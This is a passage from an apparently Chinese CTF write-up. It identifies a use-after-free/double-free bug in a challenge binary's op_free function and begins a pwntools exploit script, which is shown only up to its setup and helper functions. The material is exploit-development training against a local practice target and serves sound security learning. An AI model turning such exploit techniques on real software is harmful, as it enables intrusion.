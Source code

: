 在 op\_free 函数中观察到很明显的 UAF 漏洞

```bash
void op_free()
{
  __int64 index; // [rsp+8h] [rbp-8h]

  puts("Index?");
  index = get_index();
  free(*((void **)&chonks + index));
}
```

和上一题的打法相似，依旧是围绕 double free 做文章

##### exp：

```bash
# encoding = utf-8
from pwn import *
from pwnlib.rop import *
from pwnlib.context import *
from pwnlib.fmtstr import *
from pwnlib.util.packing import *
from pwnlib.gdb import *
from ctypes import *
import os
import sys
import time
import base64

context.os = 'linux'
context.arch = 'amd64'
context.log_level = "debug"

name = './pwn'

debug = 0
if debug:
    p = remote('127.0.0.1',8000)
else:
    p = process(name)

libcso = './libc.so.6'
libc = ELF(libcso)
elf = ELF(name)


s       = lambda data               :p.send(data)
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data,num           :u32(p.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(p.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')
context.terminal = ['gnome-terminal','-x','sh','-c']

add_idx = 1
free_idx = 2
```